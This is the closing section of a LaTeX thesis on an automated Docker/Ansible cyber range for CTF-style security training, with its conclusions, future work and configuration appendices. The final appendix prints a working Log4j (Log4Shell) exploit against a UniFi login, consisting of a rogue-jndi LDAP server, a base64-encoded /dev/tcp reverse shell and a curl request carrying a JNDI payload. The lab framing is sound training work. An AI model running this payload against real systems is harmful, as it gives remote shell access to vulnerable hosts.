To enable the remote setup of Azure's VM, a Bash script was created. It configures the target machine with the necessary packages and files to run Ansible, uses a GitHub deployment key associated with the project's repository to pull data from it, and runs an Ansible bootstrap playbook in the target machine. At last, the UI panel is launched. All the configuration and provisioning tasks of the remote machine are done using a pre-configured SSH key generated through Azure. The commands and file copy operations are performed using SSH and \textit{Rsync}, a command line tool that looks to replace the already deprecated \textit{Secure Copy Protocol (SCP)}.

% Tailscale (kvmcontainer, attackermachine, local | rhino-duck.ts.net)
% Microsoft Azure

\section{Summary} \label{sec:validation_summary}

This chapter presented the results from the validation process of the developed solution. Starting from Section \ref{sec:validation_iac_tools_in_cr_construction} (p. \pageref{sec:validation_iac_tools_in_cr_construction}), we provide a brief insight into the Infrastructure-as-Code tools used across the project and a short overview of the design decisions taken across the project. In Section \ref{sec:validation_architecture} (p. \pageref{sec:validation_architecture}), we detail the logic followed using Ansible groups, roles, and variables crucial to understanding the project's inner workings. Furthermore, Section \ref{sec:validation_custom_scenarios} (p. \pageref{sec:validation_custom_scenarios}) explains the construction process of the Log4j, Ransomware, and Active Directory scenarios, the problems overcame, and possible solutions to get the secret flag of each scenario. Section \ref{sec:validation_imported_scenarios} (p. \pageref{sec:validation_imported_scenarios}) details the process of importing scenarios from the DiceCTF competition. With this, we significantly expanded the number of scenarios available in the project. Moreover, Section \ref{sec:validation_scenario_extensibility} (p. \pageref{sec:validation_scenario_extensibility}) presents insights on creating new scenarios and including them in our framework. Section \ref{sec:validation_ui} (p. \pageref{sec:validation_ui}) explains the architecture behind the UI panel used to manage the entire framework and, lastly, Section \ref{sec:validation_cloud_deployment} (p. \pageref{sec:validation_cloud_deployment}) explains the cloud deployment process to carry out the scenarios to a remote machine accessible through the Internet.

The validation process was helpful when identifying possibilities for improving the implemented solution. We developed a framework capable of being run on a local or remote machine, featuring a straightforward user interface, and letting the trainees improve their skills in several areas across the cybersecurity field.
\clearpage\phantom{}
\chapter{Conclusions}\label{chap:conclusion}

\section{Conclusions} \label{sec:conclusions}

The current thesis touches on a multitude of topics and approaches. In this section, we go over each of these.

Cyber ranges play an essential role in cybersecurity training professionals and students. There is a constant need to improve the knowledge of better-protecting systems against outside and inside threats. Typically, the best defense is attacking, which opens the door to cyber ranges based on CTF challenges where cybersecurity enthusiasts can build upon their skills.

The literature review process revealed many cyber ranges built using old-case-driven approaches, which turn out to be costly and sometimes less effective. Most of these deployments are associated with virtual machines and physical hardware. More cost-effective and lightweight solutions are starting to emerge using approaches based on containerization. This virtualization allows larger deployments that consume fewer resources compared to old methods. Issues concerning the manual and overwhelming process of developing brand-new cyber range scenarios are starting to be overtaken due to the randomization of scenarios. Moreover, not every cyber range is ready to be deployed on a remote machine, which may turn the entire process of hosting scenarios centralized.

Our solution aims to strengthen what the current \textit{state-of-the-art} lacks and revolves upon the following central hypothesis:\\

\leftskip=1.25cm\rightskip=1.25cm

\textbf{H:} \textit{``Using an approach heavily relying upon DevOps, Infrastructure as Code and containerization, it is possible to automatically deploy and provision, in a cost-effective manner, a set of vulnerable enterprise-level scenarios, ensuring practical appealing cybersecurity training.''}\\

\leftskip=0cm\rightskip=0cm

To validate our hypothesis, we used a DevOps approach relying on Infrastructure as Code with Ansible to configure and provision cyber range scenarios based on Docker containers. Moreover, we developed enterprise-level networks, considering various attack paths, enabling the trainee to solve a scenario in many ways. We also addressed randomization by changing the IP address of each container on every new scenario execution. With the help of Ansible, we can say we created a framework capable of integrating a wide range of Docker-based scenarios that are supported by an enterprise-level network in a cost-effective manner.

Creating custom scenarios allowed us to expand our knowledge to new environments related to world-known vulnerabilities, namely, Log4j, which haunted several companies across the end of the year 2021. We have built a scenario that successfully explores this vulnerability, allowing the trainee to experience and attack services vulnerable to Log4j. Furthermore, we not only visited the Linux operating system. With the aid of Vagrant, we also dived through Windows-based scenarios, which introduced another degree of complexity to our project. We developed a scenario that included a Ransomware sample, which still haunts individuals and companies nowadays. We created a purposely vulnerable Active Directory Domain Controller where trainees can test every sort of attack path. The journey of custom scenario creation does not finish here, as we designed our framework to allow the integration of new scenarios. 

To provide something visible that manages the entire framework, we created a UI panel that works in sort of a CTF-like platform, where a user can launch scenarios, exploit them and submit the correct secret flag to mark them as solved. 

Finally, we wanted to turn our framework flexible, so we deployed our scenarios to a remote machine and joined containers that needed to be accessible from the exterior to a Tailscale mesh network.

In conclusion, we developed a straightforward cyber range framework that addresses some of the knowledge gaps the cybersecurity force needs to build upon and successfully validated our initially proposed hypothesis. 

\section{Contributions} \label{sec:contributions}

All in all, we can highlight the following:\\

\textbf{Literature Review}

We conducted an analysis of the \textit{state-of-the-art} to understand the current research paradigm, the technologies used while building cyber range environments, and their applicability in cybersecurity training.\\

\textbf{Cyber Range Framework}

We designed and implemented a configurable, dynamic, easily-deployable, and robust framework for cyber ranges. This tool uses cutting-edge technologies to automatically launch a wide range of scenarios that a cybersecurity professional or enthusiast can explore. The GitHub repository hosting our framework will be open-sourced.\\\\

\textbf{Validation of the Proposed Hypothesis}

The conducted work allows us to state the hypothesis was validated strongly. Over Chapter \ref{chap:validation}, we provided insight into how our solution was built and the methodology and logic followed across the project development.

\section{Future Work} \label{sec:future_work}

The final outcome of the developed framework is quite interesting. However, we believe any things can be considered for future work, namely:\\

\textbf{Scenarios}

Pursue further efforts in creating scenarios that use a wider range of network services, for instance, Mail servers, Intrusion Detection, and Prevention Systems. The possibility of using real hardware in some scenarios could also add value to the project. The ability to generate traffic from hypothetical users sitting in the network and logging the activities carried by an attacker to try to exploit a vulnerable service could also be meaningful from the trainee's point of view.\\

\textbf{Randomization}

Several possible avenues of research were identified during the Literature Review (\textit{cf.} Chapter \ref{chap:sota}), which were not fully explored. We are talking about randomization. We mentioned every time a scenario is launched, the IP address of each container varies. However, further developments can take in consideration the randomization of user accounts, credentials, operating systems,  network configurations, and services. Even if considering the above-mentioned traffic generation, several types of traffic could be generated.\\

\textbf{Docker Escape Concerns}

Our framework is tailored for running in controlled environments. Even in cloud deployments, we guarantee access to the externally accessible machines only if the machine trying to access them is part of the Tailscale network. The traffic exchanged between the mesh network is encrypted, and any device sitting outside it cannot access any machine or decrypt any traffic. Still, if by any means the trainee feels inspired to perform Docker escape attacks, it would be useful to explore some countermeasures to prevent the trainee from accessing the host system.\\

\textbf{Open-source}

A final consideration of this work pertains to the ability to open the framework to any cybersecurity professional or enthusiast, developer, academic institution, or even government as a means of skills training.

\clearpage\phantom{}

%%----------------------------------------
%% Final materials
%%----------------------------------------

%% Bibliography
%% Comment the next command if BibTeX file not used
%% bibliography is in ``myrefs.bib''
\PrintBib{myrefs}

%% 2021-07-20: change
%% comment next 2 commands if numbered appendices are not used
%\appendix
%\clearpage\thispagestyle{empty}\phantom{}\clearpage

\chapter{Docker Networks' Ansible Variables} \label{ap1:ansible_vars_docker_networks}

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Docker Networks.]
networks:
  internal_net:
    network_addr: 172.{{ random_byte }}.0.0/24
    gateway_addr: 172.{{ random_byte }}.0.254
    random_byte: "{{ random_byte }}"

  dmz_net:
    network_addr: 172.{{ random_byte | int - 5 }}.0.0/24
    gateway_addr: 172.{{ random_byte | int - 5 }}.0.254
    random_byte: "{{ random_byte | int - 5 }}"

  external_net:
    network_addr: 172.{{ random_byte | int - 10 }}.0.0/24
    gateway_addr: 172.{{ random_byte | int - 10 }}.0.254
    random_byte: "{{ random_byte | int - 10 }}"
\end{lstlisting}


\blankpage

\chapter{Example of Machine's Ansible Variables} \label{ap1:ansible_vars_machine}

\begin{lstlisting}[language=yaml,caption=Ansible Variables - Machines.]
machines:
  - name: attackermachine
    image: kali_test_img
    volumes:
      - "/dev/net/tun:/dev/net/tun"
    group:
      - external
      - mesh
    published_ports:
      - 5900:5900
      - 6080:6080
    dns: 
      name: edge_router
      network: external_net
    networks:
      - name: external_net
        ipv4_address: 172.{{ networks.external_net.random_byte }}.0.2
\end{lstlisting}

\blankpage

\chapter{DNS Server Template Configuration} \label{ap1:ansible_vars_dns_template_conf}

\begin{lstlisting}[caption=DNS Server Template Configuration.]
acl "exclude" {
    {{ (machines | selectattr('name', '==', 'edge_router'))[0]['networks'] | selectattr('name', '==', 'dmz_net') | map(attribute='ipv4_address') | first }};
};

acl internals {
    !exclude;
    172.{{ networks.internal_net.random_byte }}.0.0/24;
    172.{{ networks.dmz_net.random_byte }}.0.0/24;
};

view "internal" {
    match-clients { internals; };

    
    zone "{{ info.domain }}" {
        type master;
        file "/var/bind/db.internal.{{ info.domain }}";
    };
    
};

view "external" {
    match-clients { any; };

    
    zone "{{ info.domain }}" {
        type master;
        file "/var/bind/db.external.{{ info.domain }}";
    };
    

    # ... #
};}
\end{lstlisting}

\chapter{Reverse Proxy Template Configuration} \label{ap1:ansible_vars_reverse_proxy_template_conf}

\begin{lstlisting}[caption=Reverse Proxy Template Configuration.]
http {
    sendfile on;
    large_client_header_buffers 4 32k;

    
    
    upstream service-{{ loop.index }} {
    
    server {{ ((selected_machines | selectattr('name', '==', target.name))[0]['networks'] | selectattr('name', '==', target.network) | map(attribute='ipv4_address')) | first }}:{{ target.port }};
    
    }

    server {
        listen 80;
        server_name {{ vars.domain }};

        location / {
            return 301 https://$host$request_uri;
        }
    }

    server {
        listen 443 ssl;
        server_name {{ vars.domain }};

        ssl_certificate /etc/ssl/certs/{{ vars.domain }}.crt;
        ssl_certificate_key /etc/ssl/private/{{ vars.domain }}.key;

        location / {
            proxy_pass         http://service-{{ loop.index }};
            proxy_redirect     off;
            proxy_http_version 1.1;
            # ... #
        }
    }
    
}
\end{lstlisting}

\chapter{Generating an SSL Certificate for UniFi's Dashboard} \label{ap1:ansible_generate_ssl_certificate_unifi}

\begin{lstlisting}[language=bash,caption=Generating an SSL Certificate for UniFi's Dashboard.]
#!/bin/bash

# Generate CA keys (private and public keys)
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -keyout ca.key -out ca.crt

# Generating Certificate Signing Request (notice the subjectAltName, which is mandatory, at least in Firefox!)
openssl req -newkey rsa:2048 -sha256 -keyout server.key -out server.csr -subj "/CN=example-domain.ui.com/O=UniFi/C=US" -passout pass:pass -addext "subjectAltName = DNS:example-domain.ui.com"

# Generate Server Public-key Certificate
openssl ca -config openssl.cnf -policy policy_anything -md sha256 -days 3650 -in server.csr -out server.crt -batch -cert ca.crt -keyfile ca.key

# Remove Password from server's private key
openssl rsa -in server.key -out server_nopass.key
\end{lstlisting}

\blankpage

\chapter{Attacker Machine - Entry Point Bash Script} \label{ap1:log4j_entrypoint_script}

\begin{lstlisting}[language=bash,caption=Attacker Machine - Entrypoint Bash Script.]
#!/bin/bash

cd "$( dirname "$0" )"

# UniFi Wizard Setup 

sleep 10
pip install -r requirements.txt
python3 setup.py

# Load new trusted root CA

cp /setup/ca.crt /usr/local/share/ca-certificates
update-ca-certificates

# Also in Firefox-Esr

cat policies.json > /usr/lib/firefox-esr/distribution/policies.json
\end{lstlisting}

\blankpage

\chapter{Log4j Scenario - Running Exploit} \label{ap1:unifi_clone_rogue_jndi}

\begin{lstlisting}[language=bash,caption=Log4j Scenario - Running Exploit.]
# Clone Rogue JNDI GitHub repository and build project
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# Create the Base64 payload 
echo 'bash -c bash -i >&/dev/tcp/172.152.0.2/4444 0>&1' | base64

# Running the malicious LDAP and HTTP Server with the Base64 malicious payload. The hostname flag denotes the target HTTP server.
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjE1Mi4wLjIvNDQ0NCAwP
iYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.152.0.2"

# Running Exploit
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.152.0.2:1389/o=tomcat}","strict":true}'
\end{lstlisting}

%% Index
%% Uncomment next command if index is required
%% don't forget to run ``makeindex thesis'' command
%\PrintIndex

\end{document}
